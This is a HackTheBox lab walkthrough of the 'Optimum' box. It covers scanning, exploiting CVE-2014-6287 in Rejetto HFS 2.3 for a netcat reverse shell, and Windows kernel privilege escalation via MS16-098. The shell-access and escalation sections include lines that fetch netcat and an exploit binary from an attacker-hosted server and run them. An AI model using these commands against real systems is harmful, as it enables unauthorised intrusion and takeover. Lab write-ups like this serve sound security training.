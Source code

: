 ```yaml
---
layout: post
title: "HackTheBox Walkthrough - Optimum"
author: "Emmet Friel"
categories: HackTheBox
image: htb/optimum/optimum.png
---
```


# Introduction

This box was interesting in the sense it really honed in on the importance of enumeration, gave me a solid foundation on windows privilege escalation that I can refer back to and that you can’t rely on the exploit tools to do all the work for you! Lets get started.

# Reconnaissance & Enumeration

```bash
root@kali:~# nmap -sC -sV -O -p- -oN nmap.nmap 10.10.10.8
Starting Nmap 7.80 ( https://nmap.org ) at 2020-04-07 10:53 BST
Nmap scan report for 10.10.10.8
Host is up (0.029s latency).
Not shown: 65534 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-server-header: HFS 2.3
|_http-title: HFS /
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Microsoft Windows Server 2012 (91%), Microsoft Windows Server 2012 or Windows Server 2012 R2 (91%), Microsoft Windows Server 2012 R2 (91%), Microsoft Windows 7 Professional (87%), Microsoft Windows Phone 7.5 or 8.0 (86%), Microsoft Windows 7 or Windows Server 2008 R2 (85%), Microsoft Windows Server 2008 R2 (85%), Microsoft Windows Server 2008 R2 or Windows 8.1 (85%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (85%), Microsoft Windows Server 2016 (85%)
No exact OS matches for host (test conditions non-ideal).
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 128.40 seconds
```
- -sC : scripting scan, equivalent to also writing –script=default
- -sV: service version
- -O  : Operating System version
- -p- : scanning all 65536 ports
- -oN: Output result to a normal text file called nmap.nmap

| ![image]({{site.baseurl}}/assets/img/htb/optimum/hfs_opt.png) |
| :--: |
| *HFS Webpage running on port 80* |

Any webpage running on port 80 I always perform a dirb and nikto scan in the background, so I did just that however a quick search on the service version gave me everything I needed to get access into the system. 

The exploit I used was: <a href="https://www.exploit-db.com/exploits/39161" target="_blank_">Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution (2)</a> which refers to CVE-2014-6287. The vulnerability is 
> “The findMacroMarker function in parserLib.pas in Rejetto HTTP File Server (aks HFS or HttpFileServer) 2.3x before 2.3c allows remote attackers to execute arbitrary programs via a %00 sequence in a search action.” In other words, using the search bar on the website we can execute code server side using the null sequence.

There are now two approaches to exploit the machine: 
1. Execute commands in the search bar on the website using the null byte (%00)
2. Use the exploit script we found through a quick search.

For simplicity, I am going to use the scripting option.

# Shell Access

To use the script there are 3 important variables:

1. Change the IP address to your own: 
```bash
ip_addr = "192.168.44.128" #local IP address
```

2. Change the port which you are going to listen on:
```bash
	local_port = "443" # Local Port number
```

3. Host a webserver serving netcat (nc.exe). I am using SecLists GitHub repo for nc.exe which you can clone from their GitHub page.
```bash
#EDB Note: You need to be using a web server hosting netcat (http://<attackers_ip>:80/nc.exe).  
#          You may need to run it multiple times for success!
```

Once I edited the script, I setup my netcat listener, python webserver and then executed the script: ```python 39161.py <target IP> <target port>``` 
Note that it may take a few attempts for the script to work. 

| ![image]({{site.baseurl}}/assets/img/htb/optimum/opt_terminal.png) |
| :--: |
| *Running the attack and having a reverse shell access to the victim machine* |


# Privilege Escalation using Windows Suggester

You can see I am user “kostas” from the terminal. I do not have Admin permissions so it’s time to escalate to root! To do this I used the <a href="https://github.com/AonCyberLabs/Windows-Exploit-Suggester" target="_blank_">Windows Exploit Suggester</a> tool. The tool is really simple and extremely powerful, it compares all the patches on the machine to Microsoft’s patch database and outputs a “suggested” list of exploits. I have seen older tutorials use “Sherlock” instead of “Windows Suggester” but if you have a look at Sherlock’s GitHub, the repo hasn't been updated in 3 years :\ 

To do this, run ```systeminfo``` and then copy and paste the output to a file: ```systeminfo.txt``` in my case 

```windows
C:\Users\kostas\Desktop>systeminfo
```
```bash
root@kali:~/Documents/boxes/optimum# python windows-exploit-suggester.py --update
[*] initiating winsploit version 3.3...
[+] writing to file 2020-04-07-mssb.xls
[*] done
```
```bash
root@kali:~/Documents/boxes/optimum# python windows-exploit-suggester.py --database 2020-04-07-mssb.xls --systeminfo systeminfo.txt --quiet
[*] initiating winsploit version 3.3...
[*] database file detected as xls or xlsx based on extension
[*] attempting to read from the systeminfo input file
[+] systeminfo input file read successfully (ascii)
[*] querying database file for potential vulnerabilities
[*] comparing the 32 hotfix(es) against the 266 potential bulletins(s) with a database of 137 known exploits
[*] there are now 246 remaining vulns
[+] [E] exploitdb PoC, [M] Metasploit module, [*] missing bulletin
[+] windows version identified as 'Windows 2012 R2 64-bit'
[*] 
[E] MS16-135: Security Update for Windows Kernel-Mode Drivers (3199135) - Important
[E] MS16-098: Security Update for Windows Kernel-Mode Drivers (3178466) - Important
[M] MS16-075: Security Update for Windows SMB Server (3164038) - Important
[E] MS16-074: Security Update for Microsoft Graphics Component (3164036) - Important
[E] MS16-063: Cumulative Security Update for Internet Explorer (3163649) - Critical
[E] MS16-032: Security Update for Secondary Logon to Address Elevation of Privile (3143141) - Important
[M] MS16-016: Security Update for WebDAV to Address Elevation of Privilege (3136041) - Important
[E] MS16-014: Security Update for Microsoft Windows to Address Remote Code Execution (3134228) - Important
[E] MS16-007: Security Update for Microsoft Windows to Address Remote Code Execution (3124901) - Important
[E] MS15-132: Security Update for Microsoft Windows to Address Remote Code Execution (3116162) - Important
[E] MS15-112: Cumulative Security Update for Internet Explorer (3104517) - Critical
[E] MS15-111: Security Update for Windows Kernel to Address Elevation of Privilege (3096447) - Important
[E] MS15-102: Vulnerabilities in Windows Task Management Could Allow Elevation of Privilege (3089657) - Important
[E] MS15-097: Vulnerabilities in Microsoft Graphics Component Could Allow Remote Code Execution (3089656) - Critical
[M] MS15-078: Vulnerability in Microsoft Font Driver Could Allow Remote Code Execution (3079904) - Critical
[E] MS15-052: Vulnerability in Windows Kernel Could Allow Security Feature Bypass (3050514) - Important
[M] MS15-051: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Elevation of Privilege (3057191) - Important
[E] MS15-010: Vulnerabilities in Windows Kernel-Mode Driver Could Allow Remote Code Execution (3036220) - Critical
[E] MS15-001: Vulnerability in Windows Application Compatibility Cache Could Allow Elevation of Privilege (3023266) - Important
[E] MS14-068: Vulnerability in Kerberos Could Allow Elevation of Privilege (3011780) - Critical
[M] MS14-064: Vulnerabilities in Windows OLE Could Allow Remote Code Execution (3011443) - Critical
[M] MS14-060: Vulnerability in Windows OLE Could Allow Remote Code Execution (3000869) - Important
[M] MS14-058: Vulnerabilities in Kernel-Mode Driver Could Allow Remote Code Execution (3000061) - Critical
[E] MS13-101: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Elevation of Privilege (2880430) - Important
[M] MS13-090: Cumulative Security Update of ActiveX Kill Bits (2900986) – Critical
```

The output of windows-exploit-suggester shows a grand collection of exploits to try out so at this stage it’s really trial and error. Note that some attempts caused the machine to crash and so you would have to set up the reverse shell again, nothing major.
After trial and error, MS16-098 got me that nice root shell :)

I placed the exploit on the python webserver, downloaded it from the victims machine and then executed it.

```windows
C:\Users\kostas\Desktop>powershell.exe -c "(New-Object System.Net.WebClient).DownloadFile('http://10.X.X.X/bfill.exe','C:\Users\kostas\Desktop\exploit.exe')
```

```windows
C:\Users\kostas\Desktop>exploit.exe
exploit.exe
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved. 

C:\Users\kostas\Desktop>whoami
whoami
nt authority\system
```